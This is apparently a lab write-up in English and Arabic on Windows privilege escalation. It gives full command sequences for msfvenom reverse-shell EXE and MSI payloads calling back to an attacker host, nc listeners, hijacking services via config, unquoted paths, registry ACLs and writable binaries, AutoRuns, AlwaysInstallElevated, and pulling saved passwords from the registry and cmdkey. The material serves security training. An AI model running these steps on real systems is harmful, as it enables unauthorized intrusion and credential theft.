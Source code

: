 # Windows PrivEsc

<img width="1907" height="364" alt="image" src="https://github.com/user-attachments/assets/82f1df6e-1dca-4555-bfea-af1faf6f0869" />


>[!note]
> ### Connect to Target using `RDP srvice enabled`:
>
> ```ruby
> xfreerdp3 /u:user /p:password321 /cert:ignore /v:10.10.103.25
> ```
> Or
> ```ruby
> rdesktop 10.10.103.25 -u user -p password321
> ```
> #### `if winrm service is enabled` :
> ```ruby
> evil-winrm -i 10.10.103.25 -u user -p 'password321'
> ```
> #### `if SMB service is enabled` :
> ```ruby
> smbclient //MACHINE_IP/C$ -U user
> ```

- <details>
     <summary>Nmap Scan</summary>

  ```ruby
  nmap -sC -sV  10.10.103.25 
  ```
  
  **`output`**
  
  ```ruby
  PORT     STATE SERVICE       VERSION
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp  open  microsoft-ds  Windows Server 2019 Standard Evaluation 17763 microsoft-ds
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  |_ssl-date: 2025-09-08T19:27:18+00:00; -2s from scanner time.
  | ssl-cert: Subject: commonName=WIN-QBA94KB3IOF
  | Not valid before: 2025-09-07T18:56:41
  |_Not valid after:  2026-03-09T18:56:41
  | rdp-ntlm-info: 
  |   Target_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Domain_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Computer_Name: WIN-QBA94KB3IOF
  |   DNS_Domain_Name: WIN-QBA94KB3IOF
  |   DNS_Computer_Name: WIN-QBA94KB3IOF
  |   Product_Version: 10.0.17763
  |_  System_Time: 2025-09-08T19:27:08+00:00
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-title: Not Found
  |_http-server-header: Microsoft-HTTPAPI/2.0
  Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s
  | smb-os-discovery: 
  |   OS: Windows Server 2019 Standard Evaluation 17763 (Windows Server 2019 Standard Evaluation 6.3)
  |   Computer name: WIN-QBA94KB3IOF
  |   NetBIOS computer name: WIN-QBA94KB3IOF\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2025-09-08T12:27:11-07:00
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2025-09-08T19:27:12
  |_  start_date: N/A
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 256.26 seconds
  ```
  
  - **`3389/tcp open  ms-wbt-server`** : That is mean `RDP service` is work
  - **`5985/tcp open  http`** : That is mean `WinRM HTTP service` is work
  - **`445/tcp  open  microsoft-ds`** : That is mean `SMB service` is work


     
  </details>



<details>
  <summary>Generate a Reverse Shell Executable</summary>

## 1. first Create **`Reverse Shell file`** on my kali device

```ruby
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

- **`msfvenom`** : Tool from Metasploit used to generate payloads.
- **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
- **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
- **`LPORT`** : port that shell will connect to it on kali
- **`-f exe`** : output file type `exe`
- **`-o reverse.exe`** : put the output in file call ``reverse.exe``

## 2. send reverse sell to windows

**`on kali Device open smb servrice on directory that have reverseshell file`**

```ruby
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
### **`or it's alias`**

```ruby
impacket-smbserver kali . -smb2support
```



- **`kali`** : name share
- **`.`** : files that will avilable in the share here in current folder
- **`-smb2support`** : It makes the server support the SMBv2 protocol (important because modern Windows often does not accept SMBv1).


**`on Windows Device`**

```ruby
copy \\10.8.47.102\kali\reverse.exe C:\PrivEsc\reverse.exe
```

- copy file from kali machine to windows


---

<img width="638" height="147" alt="image" src="https://github.com/user-attachments/assets/0fb8c918-0b43-445d-81ce-ba68f457888f" />


<img width="1441" height="449" alt="image" src="https://github.com/user-attachments/assets/dce924e7-a87f-4dff-af42-349654bc9647" />

- **`that is mean file is copied to windows`**

---

### **`now run the reverse file on windows with lesten on port 4444 on kali`**

<img width="715" height="307" alt="image" src="https://github.com/user-attachments/assets/6c150d81-145e-4b5f-b16d-8985d3ffaf89" />

- **`here we go we receved the shell `**


  
</details>









<details>
  <summary>Service Exploits</summary>




- <details>
      <summary>🟦Understanding</summary>

  
  ## ``1. know all services that work on system and it's privileges``
  
  # **`CMD`**
  
  ```ruby
  sc query type= service state= all
  ```
  
  # **`PowerShell`**
  
  ```ruby
  Get-Service | Select-Object Name, Status, StartType
  ```
  
  
  ---
  ---
  
  ## ``2. know the privilges of the user on each service``
  
  ```ruby
  accesschk.exe -uwcqv user *
  ```
  
  > you must download **`accesschk.exe`**
  > 

  https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk

  <details>
    <summary>send it to vectem</summary>
  
  ## **`using SMB`**
  
  **`on kali`**
  
  ```ruby
  sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
  
  ```
  
  **`on windows`**
  
  ```ruby
  copy \\10.10.10.10\kali\accesschk.exe C:\PrivEsc\accesschk.exe
  ```
  
  ----
  ----
  
  ## **`using Powershell`**
  
  **`on windows`** if device connected to internet
  
  ```ruby
  Invoke-WebRequest -Uri "http://10.10.10.10/accesschk.exe" -OutFile "C:\PrivEsc\accesschk.exe"
  ```
  
  **`on kali`**
  
  ```ruby
  python3 -m http.server 80
  ```
  
  
    
  </details>


  > by default it downloaded on this machine 





  ---
  ---
  
  ## 3. found the services that work as **`SYSTEM`**
  
  # **`CMD`**
  
  ```ruby
  sc qc <ServiceName>
  ```
  
  > - look at **`SERVICE_START_NAME`** value
  
  # **`PowerShell`**
  
  ```ruby
  Get-WmiObject Win32_Service | Select-Object Name, StartName
  ```


  </details>








- <details>
      <summary>Insecure Service Permissions</summary>

  
  > ### Goal is prevEsc form normal user to `SYSTEM privileges` by **`daclsvc`** service 
  
  ## 1. first check the pricvllage of current user on this service ``(daclsvc)``
  
  ```ruby
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  
  - **`accesschk.exe`** : This is Tool form _Sysinternals_ to check on privilege of current user on (files, folders, etc...)
  - **`/accepteula`** : this option to pybaass the first priv window
  - **`-uwcqv`** : options
    - **`u`** : user account
    - **`w`** : writeing privileges
    - **`c`** : change `config` privileges
    - **`q`** : `quiet` to make it simple
    - **`v`** : `verbose` for more details
  - **`user`** : username of current user
  - **`daclsvc`** : service name
      
  
  ---
  
  <img width="584" height="296" alt="image" src="https://github.com/user-attachments/assets/c8ab3ba2-ad0a-4c86-99e3-ace3b7ce30fb" />
  
  ### - **`Found that user have`** :
  
  ```ruby
  SERVICE_CHANGE_CONFIG
  ```
  ### - ``Thats mean this user can change settings of this service``
  
  
  ---
  
  ## 2. now we want to know privileges of the current service
  
  ```ruby
  sc qc daclsvc
  ```
  
  - **`sc qc`** : query config for service
  - **`daclsvc`** : name of the service
  
  ---
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  ### - we found :
  
  - **`SERVICE_START_NAME`** : the account that this service work with it
  - **`LocalSystem`** : that is mean if we run this service any program will run as **`SYSTEM`**
  
  
  
  ---
  
  > ### NOW WE know that :
  > - this service can work as **`SYSTEM`**
  > - current user can edit this service settings **`SERVICE_CHANGE_CONFIG`**
  
  
  ## 3. change the path of this service to path of our reverse shell that will send shell to kali with **`SYSTEM`** privileges : 
  
  ```ruby
  sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
  ```
  
  - **`sc config`** : change service settings
  - **`binpath=`** : the new path to that service will run it
  - **`\"C:\PrivEsc\reverse.exe\`** : reverse shell that we sent it before
  
  
  ### **`lesten on port 4444 on kali`**
  
  ### **`run the service`**
  
  <img width="677" height="212" alt="image" src="https://github.com/user-attachments/assets/ad7a133f-2592-45ba-9083-47dfb2ed716b" />
  
  ---
  
  ## receved the shell :
  
  <img width="719" height="210" alt="image" src="https://github.com/user-attachments/assets/7d36208c-ce01-4047-9eaf-04c855830e50" />
  
  ---
  
  ## see that we now **`SYSTEM`** user
  
  ```ruby
  whoami
  ```
  
  <img width="327" height="79" alt="image" src="https://github.com/user-attachments/assets/64e23bed-3b42-4219-8714-a256a4f0db96" />
  
  <details>
    <summary>more commands</summary>
  
  
  ## to see our privilleges
  
  ```ruby
  whoami /priv
  ```
  <img width="1282" height="624" alt="image" src="https://github.com/user-attachments/assets/a65ceb03-b5b5-4c09-a2fc-a2214f0ef8fc" />
  
  
  ## see the groups that i'm in : 
  
  ```ruby
  whoami /groups
  ```
  
  <img width="1158" height="249" alt="image" src="https://github.com/user-attachments/assets/c2689996-2809-4a2d-bec0-9508e3c0a142" />
  
  ```ruby
  systeminfo
  ```
  
  <img width="796" height="599" alt="image" src="https://github.com/user-attachments/assets/1ec7bb31-9838-41fd-8872-ffe6e0b1d56c" />
  
  ## to show all env variables: 
  
  ```ruby
  set
  ```
  
  <img width="1403" height="554" alt="image" src="https://github.com/user-attachments/assets/5a9fa26d-e836-4fe0-9ada-2372d7e46a96" />
  
  
    
  </details>
  
  
  > ## now the answer of the question :
  > What is the original BINARY_PATH_NAME of the daclsvc service?
  
  ```ruby
  sc qc daclsvc
  ```
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  **`answer`**
  
  ```ruby
  C:\Program Files\DACL Service\daclservice.exe
  ```
  


  </details>













- <details>
      <summary>Unquoted Service Path</summary>

     
     
     > ## in windows each service has :
     > - **`BINARY_PATH_NAME`** : THE path with refer to the place that have **`exe`** that this service will run it
     >   - if it's value writen without ``"..."`` that mean we can exploit it
     
     
     ---
     
     ## 1. first get info about the service (unquotedsvc)
     
     ```ruby
     sc qc unquotedsvc
     ```
     
     ## - found two important things
     
     > - **`SERVICE_START_NAME : LocalSystem`** : that is mean this service work as **`SYSTEM`**
     > - **`BINARY_PATH_NAME        : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`**
     >>  - IT without ``"..."``
     
     
     <img width="883" height="262" alt="image" src="https://github.com/user-attachments/assets/888cae7d-e707-4a32-bf40-02b668d079b5" />
     
     ---
     
     ## 2. TRY To know the privilege of current user on this path
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
     ```
     
     ## - **`RW BUILTIN\Users`** : that is mean any normal user can do read and write in this folder
     
     
     <img width="823" height="173" alt="image" src="https://github.com/user-attachments/assets/418384ed-aeff-4838-91b8-966a9933ba4d" />
     
     
     ---
     
     ## 3. move the reverse shell file to the new path with new name 
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
     ```
     
     <img width="778" height="82" alt="image" src="https://github.com/user-attachments/assets/28249e57-c476-4664-b89f-7b136ef20544" />
     
     
     
     ## 4. open listener on kali
     
     ```ruby
     sudo nc -nvlp 4444
     ```
     
     ## 5. run the service 
     
     ```ruby
     net start unquotedsvc
     ```
     
     <img width="963" height="412" alt="image" src="https://github.com/user-attachments/assets/5b8eaba2-2421-4e4d-9d67-96e604910b74" />
     
     ---
     
     <img width="1646" height="214" alt="image" src="https://github.com/user-attachments/assets/c25163f8-d4d4-4446-94b9-6398e62bcc7d" />
     



  </details>















- <details>
      <summary> Weak Registry Permissions</summary>

     
     
     > ## in windows each service has settings stored in `Registry` like:
     > - **`SERVICE_START_NAME`** : who run the service
     > - **`BINARY_PATH_NAME`** : the excutable file that run when this service run
     
     
     ## 1. first get info about the service (regsvc):
     
     ```ruby
     sc qc regsvc
     ```
     
     ```c
       BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
       SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="836" height="255" alt="image" src="https://github.com/user-attachments/assets/5019fb82-41c1-45f7-8983-dcd88310af44" />
     
     
     ## 2. check the privilege of this user to wirte on **`Registry`**
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     ```
     
     ```perl
     RW NT AUTHORITY\INTERACTIVE
           KEY_ALL_ACCESS
     ```
     
     ### - `that is mean any user have access to write on registry key of this service`
     
     
     <img width="797" height="192" alt="image" src="https://github.com/user-attachments/assets/88afff65-8a8a-4eaf-b3ad-ddc0cfedfbe0" />
     
     
     
     ## 3. edit Registry value and make it refer to our reverseshell file
     
     ```ruby
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     ```
     
     - **`/v ImagePath`** : It determines that we change this particular value.
     - **`/t REG_EXPAND_SZ`** : Value type (String extended).
     - **`/d C:\PrivEsc\reverse.exe`** : New data (new path).
     - **`/f`** : (to not ask you for confirmation).
      
     
     ## 4. open Listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     ## 5. run the service
     
     ```ruby
     net start regsvc
     ```
     
     
     <img width="995" height="568" alt="image" src="https://github.com/user-attachments/assets/0ae50a32-d149-46f3-98a6-4e17d9175224" />
     


     <details>
        <summary>الفرق بين daclsvc و regsvc Exploits</summary>
     
     
     
     
     
     ## الفرق بين daclsvc و regsvc Exploits
     
     
     الـ 2 إكسبلويت شبيهين في النتيجة (تشغيل ملفنا كـ SYSTEM)، لكن الاختلاف في **إيه اللي اتحكمنا فيه وإزاي**:
     
     ### 1️⃣ أول exploit (daclsvc)
     
     الأوامر:
     
     ```cmd
     sc qc daclsvc
     sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
     net start daclsvc
     ```
     
     * الخدمة أصلاً كانت بتشاور على ملف EXE في الـ `binpath`.
     * اليوزر عنده **SERVICE\_CHANGE\_CONFIG** → يقدر يعدّل إعدادات الخدمة باستخدام `sc config`.
     * غيّرنا الـ **binpath** بتاع الخدمة وخليّناه يشاور على ملفنا (reverse.exe).
     * لما شغّلنا الخدمة → الملف بتاعنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "تغيير إعدادات الخدمة" (config).
     
     ### 2️⃣ تاني exploit (regsvc)
     
     الأوامر:
     
     ```cmd
     accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     net start regsvc
     ```
     
     * الخدمة (regsvc) بتشاور على المسار بتاعها من الريجستري (`ImagePath`).
     * عندنا صلاحية **كتابة على مفتاح الريجستري** ده (مش config بتاع الخدمة نفسها).
     * بدلنا قيمة الـ `ImagePath` في الريجستري وخليّناه يشاور على `reverse.exe`.
     * لما شغّلنا الخدمة → برضه ملفنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "كتابة في الريجستري" بدل "تغيير إعدادات الخدمة".
     
     ### الفرق الرئيسي:
     
     * **daclsvc**: عدّلنا إعدادات الخدمة باستخدام أمر `sc config` (بسبب صلاحية خدمة).
     * **regsvc**: عدّلنا **الريجستري** اللي الخدمة بتسحب منه الإعدادات (بسبب صلاحية على الريجستري).
     
     ---
     
     ## جدول مقارنة بين أنواع Service Exploits
     
     | نوع الاستغلال                 | المكان/الصلاحية المطلوب  | الطريقة                              | النتيجة                               |
     | ----------------------------- | ------------------------ | ------------------------------------ | ------------------------------------- |
     | DACL / Config Exploit         | SERVICE\_CHANGE\_CONFIG  | sc config تغيير binpath              | تشغيل ملف كـ SYSTEM                   |
     | Registry Exploit              | Write على Registry       | reg add لتغيير ImagePath             | تشغيل ملف كـ SYSTEM                   |
     | Unquoted Path Exploit         | Write على مجلد الخدمة    | وضع ملف باسم معين داخل مجلد غير مقفل | تشغيل الملف بصلاحيات SYSTEM عند start |
     | AlwaysInstallElevated Exploit | سياسات Windows Installer | تثبيت MSI خبيث                       | تشغيل كـ SYSTEM                       |
     | Weak Service Permissions      | أذونات ضعيفة على الخدمة  | sc config / binpath                  | تشغيل كـ SYSTEM                       |
     
     *ملاحظة*: كل الطرق السابقة تعتمد على أن الخدمة تعمل تحت SYSTEM أو حساب عالي الصلاحيات.
     
     
     ---


     # Windows Service Paths Explained
     
     ## 1️⃣ BINARY_PATH_NAME
     - ده الـ **path الحقيقي** للـ executable اللي السيرفيس هيشغله.
     - لما تعمل `sc config <service> binpath= "..."`، أنت فعليًا بتغير **المكان اللي النظام هيشغل منه البرنامج**.
     - أي تغيير هنا بيأثر على السيرفيس فورًا بعد إعادة التشغيل.
     
     ## 2️⃣ ImagePath
     - ده موجود في **Registry** تحت المسار:
       ```
       HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<ServiceName>
       ```
     - القيمة دي هي نفسها `BINARY_PATH_NAME`، لأنها مجرد **طريقة Windows لتخزين path السيرفيس** في الريجستري.
     - عمليًا هما بيشاوروا لنفس الملف، لكن `ImagePath` موجود في الريجستري، و`BINARY_PATH_NAME` بيشتغل بيه `sc.exe`.
     
     ## 3️⃣ العلاقة بينهم
     - لو غيرت `BINARY_PATH_NAME` عن طريق `sc config` → النظام بيحدث الـ `ImagePath` في الريجستري تلقائي.
     - لو غيرت `ImagePath` مباشرة في الريجستري → السيرفيس مش هيعرف لحد ما تعمله restart أو تستخدم `sc` لتحديثه.
     
     ## 4️⃣ ليه في Exploit غيرنا `binpath`؟
     - الهدف كان **تشغيل الـ reverse shell الخاص بينا كخدمة**.
     - الأمر المستخدم:
       ```
       sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
       ```
     - ده بيخلي السيرفيس يشتغل بالـ executable بتاعنا بدل الأصلي.
     - وده أساسي في **privilege escalation** على Windows لأن السيرفيس بيشتغل بـ SYSTEM privileges.
     
     ## مثال تشبيهي
     - تخيل عندك دفتر (Registry) وورقة (BINARY_PATH_NAME) فيها نفس الرقم:
       - لو كتبت الرقم في الورقة → الدفتر بيتحدث تلقائي.
       - لو كتبت الرقم في الدفتر بس → الورقة مش هتعرف إلا لما تقول لها "حدّثي نفسك" (restart أو `sc`).
     
     
          
     
     
     
     
     </details>






  </details>














- <details>
      <summary>Insecure Service Executables</summary>

     
     ## 1. Query the service configuration
     
     ```ruby
     sc qc filepermsvc
     ```
     
     - **`sc`** : `(Service Control)` Tool in windows
     - **`qc`** : `(Query Configuration)` to get service settings
     
     ---
     
     ```ruby
             BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
             SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="856" height="276" alt="image" src="https://github.com/user-attachments/assets/8def86f3-a0a7-4c06-9e67-bd75f5a2f2ba" />
     
     ---
     
     ## 2. Check file permissions with accesschk
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
     ```
     
     - **`accesschk.exe`** : Tool from _Sysinternals_
     - **`/accepteula`** : It means "I agree to the user agreement" (required the first time).
     - **`-quvw`**
        - **`q`** : quiet
        - **`u`** : show user-specific permissions
        - **`v`** : `verbose` More detail
        - **`w`** : It focuses on write permissions (who has the authority to write to the file).
     - **`"C:\Program Files\File Permissions Service\filepermservice.exe"`** : The file whose permissions we want to see.
     
     ---
     
     ```ruby
      RW Everyone
             FILE_ALL_ACCESS
     ```
     
     ### - `🚨 that is mean every one on this system They have almost all the permissions on the file (read, write, modify, delete...).`
     
     
     
     <img width="923" height="268" alt="image" src="https://github.com/user-attachments/assets/71ec6c24-5cf3-4433-91dd-595bb89f31d8" />
     
     
     
     ## 3. Replace the service binary
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
     ```
     
     - **`copy`** : File copy command.
     - **`C:\PrivEsc\reverse.exe`** : The reverse shell we created (our malicious file).
     - **`"C:\Program Files\File Permissions Service\filepermservice.exe"`** : The original file of the service.
     - **`/Y`** : He lets the copying happen without asking you, “Are you sure you want to overwrite?”
     
     
     <img width="886" height="135" alt="image" src="https://github.com/user-attachments/assets/549d2f3a-bbfa-478d-8937-8b2065bd3199" />
     
     
     ## 4. Start listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     ## 5. Start the service
     
     ```ruby
     net start filepermsvc
     ```
     
     - **`net`** : A Windows tool for managing networks and services.
     - **`start`** : Service run command.
     - **`filepermsvc`** : service name
     
     
     <img width="1003" height="272" alt="image" src="https://github.com/user-attachments/assets/9898c0ad-670a-4870-aa16-862b6406cdb2" />
     
     



  </details>
  



  
</details>












<details>
  <summary>Registry</summary>



- <details>
     <summary>AutoRuns</summary>

     
     
     ## 1. Query the registry for AutoRun executables
     
     ```ruby
     reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`SOFTWARE\Microsoft\Windows\CurrentVersion\Run`** : The key that stores programs that start automatically when the system starts (Autoruns).
     
     
     <img width="728" height="147" alt="image" src="https://github.com/user-attachments/assets/16f69e3c-fea4-4bb8-96e5-fefde26211f3" />
     
     ```ruby
           "C:\Program Files\Autorun Program\program.exe"
     ```
     
     
     > ---
     > ### 📌 _The goal is to see which programs start automatically with every restart or login._
     > ---
     
     ## 2. Check file permissions with AccessChk
     
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
     ```
     
     - **`accesschk.exe`** : Tool from _Sysinternals_
     - **`/accepteula`** : It means "I agree to the user agreement" (required the first time).
          - **`-uvw`**
             - **`u`** : show user-specific permissions
             - **`v`** : `verbose` More detail
             - **`w`** : It focuses on write permissions (who has the authority to write to the file).
     - **`"C:\Program Files\Autorun Program\program.exe"`** : The executable file of the program that runs automatically.
     
     
     <img width="782" height="350" alt="image" src="https://github.com/user-attachments/assets/17076342-3a83-4c72-b480-87831a635f8d" />
     
     ```ruby
      RW Everyone
             FILE_ALL_ACCESS
     ```
     
     
     > ---
     > ### 📌 _The goal → Check if this file is writable by any user (Everyone or BUILTIN\Users). If ah → this is a big weakness._
     > ---
     
     
     ## 3. Overwrite the AutoRun executable
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
     ```
     
     <img width="799" height="84" alt="image" src="https://github.com/user-attachments/assets/083692ef-67ad-4936-902c-7a9e67ff94e1" />
     
     
     > ---
     > ### 📌 _Goal → Replace the program that runs automatically (program.exe) with our reverse shell._
     > ---
     
     
     ## 4. Start a listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     ## 5. Open a new RDP session to trigger
     
     ```ruby
     rdesktop 10.10.110.227
     ```
     
     > login with 
     
     ```css
     admin : password123
     ```
     
     <img width="515" height="291" alt="image" src="https://github.com/user-attachments/assets/a961e489-b99d-4bc2-b54b-b2f3e9a001f8" />
     
     ---
     
     <img width="1563" height="800" alt="image" src="https://github.com/user-attachments/assets/28d8261b-470d-49f0-a6f4-fdf1f704b37a" />
     
     
     > ---
     > ### 📌 _Shell will return with the privileges of the user who loged in_
     > ---
     

  </details>









- <details>
     <summary>AlwaysInstallElevated</summary>
     
     
     ## 1. Query the registry for AlwaysInstallElevated keys
     
     ```ruby
     reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`HKCU`** : HKEY_CURRENT_USER shortcut (settings specific to the current user).
     - **`\SOFTWARE\Policies\Microsoft\Windows\Installer`** : Path to Windows Installer settings.
     - **`/v AlwaysInstallElevated`** : It means "Show me the value of the entry called `AlwaysInstallElevated`".
     
     <img width="846" height="236" alt="image" src="https://github.com/user-attachments/assets/d9c6095b-91f8-481b-993e-ddd252f7b347" />
     
     
     > ---
     > ### 📌 _Goal → Make sure that the two keys are present and set to 1 `(0x1)` → if yes That is mean any ``MSI package`` can be installed with `SYSTEM privileges`._
     > ---
     
     
     ## 2. Generate malicious MSI with msfvenom (on Kali)
     
     
     ```ruby
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.47.102 LPORT=4444 -f msi -o reverse.msi
     ```
     
     - **`msfvenom`** : Tool from Metasploit used to generate payloads.
     - **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
     - **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
     - **`LPORT`** : port that shell will connect to it on kali
     - **`-f msi`** : output file type `msi`
     - **`-o reverse.msi`** : put the output in file call ``reverse.msi``
     
     
     > ---
     > ### 📌 _Goal → Create a malicious MSI file that opens Reverse Shell._
     > ---
     
     
     ## 3. Transfer the MSI to Windows
     
     **`on kali`**
     
     ```ruby
     impacket-smbserver frank . -smb2support
     ```
     
     **`on windows`**
     
     ```ruby
     copy \\10.8.47.102\frank\reverse.msi C:\PrivEsc\
     ```
     
     <img width="1799" height="528" alt="image" src="https://github.com/user-attachments/assets/67da4d1c-c81c-4fd5-9cda-07fc681b94d5" />
     
     
     
     ## 4. Start a listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     ## 5. Run the malicious MSI on Windows
     
     ```ruby
     msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
     ```
     
     - **`msiexec`** : Windows Installer (responsible for installing .msi).
     - **`/quiet`** : install program without any GUI or popups.
     - **`/qn`** : Same idea (Quiet with No UI).
     - **`/i`** : install package
     - **`C:\PrivEsc\reverse.msi`** : The file we want to install.
     
     > ---
     > ### 📌 _Goal → Since `AlwaysInstallElevated=1` in `HKLM and HKCU` → any MSI installed will be installed as SYSTEM.Therefore, our reverse shell runs directly with SYSTEM privileges._
     > ---
     
     
     <img width="1299" height="269" alt="image" src="https://github.com/user-attachments/assets/dacdf0e5-a030-40cb-a0bf-983259fa7f6d" />
     
     
     



  </details>



     
</details>

















<details>
  <summary>Passwords</summary>




- <details>
     <summary>Registry</summary>

     
     >[!note]
     > **`(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)`**
     
     
     ## 1. Search for the word "password" in the registry
     
     ```ruby
     reg query HKLM /f password /t REG_SZ /s
     ```
     
     - **`reg`** : A tool for managing the registry in Windows (query, add, delete...).
     - **`query`** : It means "View the contents of the key" (read only).
     - **`HKLM`** : HKEY_LOCAL_MACHINE shortcut (part of the registry that stores system settings for all users).
     - **`/f password`** : /f means “filter” → Here we look for the text “password”.
     - **`/t REG_SZ`** : This means looking for values ​​of type string.
     - **`/s`** : `search recursively` (Searches all subkeys)
     
     
     > ---
     > ### 📌 _Goal → To see if anywhere in the registry there is a password stored in plain text._
     > ---
     
     
     ## 2. Search directly for AutoLogon key
     
     
     ```ruby
     reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
     ```
     
     - It goes directly to Winlogon key.
     - In some systems, this contains values ​​like:
        - **`DefaultUserName`**
        - **`DefaultPassword`**
        - **`AutoAdminLogon`**
     
     <img width="971" height="611" alt="image" src="https://github.com/user-attachments/assets/a727bcec-3976-4a4b-a097-53c290ca3265" />
     
          
     
     > ---
     > ### 📌 _Goal → To access the stored admin username and password so that the system performs an automatic login._
     > ---
     
     
     ## 3. Executing a command on the system using Winexe
     
     ```ruby
     winexe -U 'admin%password' //10.10.194.107 cmd.exe
     ```
     
     - **`winexe`** : A tool that allows you to run commands on a Windows machine from a remote Linux machine (similar to PsExec).
     - **`-U 'admin%password'`** :
        - **`-U`** : user
        - **`'admin%password'`** : Here we specify the username and password in the form `username%password`.
          - **`Example`** : `'admin%password123'`.
     - **`cmd.exe`** : The program we want to run on the target device (here is the command prompt).
     
     
     <img width="919" height="322" alt="image" src="https://github.com/user-attachments/assets/b1522bdc-bc17-4ef9-94ac-fa01a0d493c1" />
     
     
     
     
     > ---
     > ### 📌 _Goal → Command Prompt will open for you with Administrator privileges on the target device while you are running Kali._
     > ---




  </details>









- <details>
     <summary>Saved Creds</summary>

     ## 1. View stored Credentials
     
     ```ruby
     cmdkey /list
     ```
     
     - **`cmdkey`** : A built-in Windows tool for managing Stored Credentials.
     - **`/list`** : display all credentials Saved in the system.
     
     <img width="624" height="286" alt="image" src="https://github.com/user-attachments/assets/d2523f9e-11b6-4c5c-a214-8cdb185886cb" />
     
     
     > ---
     > ### 📌 _Goal → To see if there is a user (such as admin) stored with its password in the Windows Vault._
     > ---
     
     <details>
          <summary>Note</summary>
     
     >[!Note]
     > #### _**`Note that credentials for the "admin" user are saved. If they aren't, run the`**_
